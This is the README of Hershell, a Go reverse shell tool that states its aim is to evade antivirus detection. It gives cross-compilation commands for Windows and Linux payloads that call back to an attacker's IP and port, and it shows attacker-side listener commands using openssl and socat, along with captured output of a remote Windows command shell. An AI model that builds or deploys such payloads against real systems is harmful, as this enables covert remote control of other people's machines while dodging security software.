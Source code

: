 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.
The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- GOOS : the target OS
- GOARCH : the target architecture
- LHOST : the attacker IP or domain name
- LPORT : the listener port

However, some helper targets are available in the ``Makefile``:

- windows32
- windows64
- linux32
- linux64

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

On the server side, you can use the openssl integrated TLS server:

```bash
# Certificate and private key generation
$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
# Start the server
$ openssl s_server -cert /tmp/cert.pem -key /tmp/key.pem -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```
